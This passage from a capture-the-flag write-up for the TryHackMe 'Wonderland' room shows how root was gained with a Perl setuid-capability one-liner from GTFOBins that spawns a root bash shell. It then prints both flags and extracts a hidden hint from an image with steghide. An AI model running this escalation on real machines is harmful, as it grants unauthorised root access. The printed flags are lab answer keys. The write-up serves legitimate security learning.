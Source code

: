 [Perl - Capabilities \| GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities)

![[hatter-9.png|560]]

Using the command that was mentioned on the site I got `root` access.

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

`-e`: Program written in one line

`use POSIX qw(setuid)`: Load the function `setuid()` from the namespace POSIX  
`POSIX::setuid(0)`: Set the UID to the program to 0 (root)  
`exec "/bin/bash"`: Create a new shell

Because of `setuid(0)`, the new shell is created with the permissions of the root user.

![[hatter-10.png|560]]

## Finding Flags

We already know that the root flag is present in Alice's home directory. The user flag was located in the `/root` directory. The root flag is normally found in the `/root` directory. On this machine, the location of the user flag and root flag was switched.

![[articles/images/thm-wonderland/root-1.png|500]]

```
# Root Flag
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}

# User Flag
thm{"Curiouser and curiouser!"}
```

## Misc. Find

I discovered later that the Rabbit image shown on the website had information hidden in it using steganography. This could have been another reason why we were told to follow the "White Rabbit".

```bash
curl -LO http://10.10.95.75/img/white_rabbit_1.jpg
```

On Linux `steghide` can be used to hide data in images. It is also possible to encrypt the data before saving it in the image. The data that was hidden in this image was not encrypted.

```bash
steghide --extract -sf white_rabbit_1.jpg
```

`--extract`: Extract data from file  
`-sf`: File with hidden data

This generates the file `hint.txt`.  The phrase `follow the r a b b i t` is the clue hidden in the file. With was meant to clue us in on the directory names. This hint was not essential since we were able to solve the room using a different approach.

![[articles/images/thm-wonderland/misc-1.png|500]]
